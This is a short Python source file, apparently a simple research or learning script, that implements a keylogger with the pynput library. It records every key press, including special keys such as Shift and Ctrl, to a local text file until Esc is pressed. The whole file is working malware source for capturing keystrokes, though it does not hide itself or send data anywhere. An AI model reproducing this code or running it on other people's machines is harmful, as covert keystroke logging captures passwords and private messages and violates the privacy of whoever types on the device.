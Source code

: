from pynput import keyboard

# Path to the log file
log_file_path = "C:/Users/User/Desktop/Bit level permutation research material/other part/Elgamal encryption/keylog.txt"

def on_press(key):
    """Callback function that gets called on each key press."""
    try:
        # Log the key as a string
        with open(log_file_path, "a") as log_file:
            log_file.write(f'{key.char}')
    except AttributeError:
        # Handle special keys like Shift, Ctrl, etc.
        with open(log_file_path, "a") as log_file:
            log_file.write(f'[{key}]')

def on_release(key):
    """Callback function that gets called when a key is released."""
    # Stop the listener when Esc key is pressed
    if key == keyboard.Key.esc:
        return False

def start_keylogger():
    """Start the keylogger."""
    # Set up the listener
    with keyboard.Listener(on_press=on_press, on_release=on_release) as listener:
        listener.join()

if __name__ == "__main__":
    start_keylogger()
